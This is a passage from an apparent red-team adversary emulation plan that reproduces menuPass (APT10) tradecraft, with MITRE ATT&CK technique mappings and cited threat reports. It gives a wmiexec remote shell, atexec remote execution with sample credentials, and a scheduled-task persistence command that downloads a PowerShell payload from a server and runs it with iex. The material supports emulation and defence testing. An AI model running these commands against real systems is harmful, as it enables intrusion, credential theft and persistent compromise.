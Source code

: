 menuPass used a customized version of wmiexec to run tools and dump credentials.  These files are reported to have been dropped to C:\Recovery, C:\Intel, and C:\PerfLogs. <sup>[7](https://www.pwc.co.uk/cyber-security/pdf/cloud-hopper-annex-b-final.pdf)</sup>

For the purpose of this plan, if you choose to assume compromise, we recommend using wmiexec to run whatever tactical implant you will be using.

```cmd
cscript.exe "#{wmiexec_local_path}"\wmiexec.vbs /shell "#{wmiexec_remote_host}"
```

Example:

```cmd
cscript.exe C:\Windows\Temp\wmiexec.vbs /shell 192.0.2.10
```

### Alternative Procedure

#### Scheduled Task using Task Scheduler ([T1053.005](https://attack.mitre.org/techniques/T1053/005))

menuPass has used atexec.py, compiled to atexec.exe to execute commands on remote hosts through the Task Scheduler service.<sup>[7](https://www.pwc.co.uk/cyber-security/pdf/cloud-hopper-annex-b-final.pdf)</sup>

```cmd
atexec #{domain/username}:#{password}@#{ip address} #{command}
```

Example:

```cmd
atexec DOMAIN\Administrator:'badpassword123!'@192.0.2.10 systeminfo
```

---

## Step 9 - menuPass Persistence (Optional)

menuPass is reported to have been selective in persisting malware.  They are thought to have persisted sustained malware to specific systems and taken steps to ensure C2 would blend in with normal network communications.

### Procedures

#### 9.A - Scheduled Task ([T1053.005](https://attack.mitre.org/techniques/T1053/005))

menuPass is reported to have created scheduled tasks to persist PlugX.<sup>[4](https://pwc.co.uk/cyber-security/pdf/cloud-hopper-report-final-v4.pdf)</sup>

```cmd
schtasks /create /sc #{schtask_schedule} /tn #{schtask_taskname} /tr #{schtask_taskrun} /ru #{schtask_username}
```

```cmd
Example: schtasks /create /sc onlogon /tn WinUpdate /ru System /tr "powershell.exe -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://#{payload_server/#{payload}.ps1'})|iex""
```
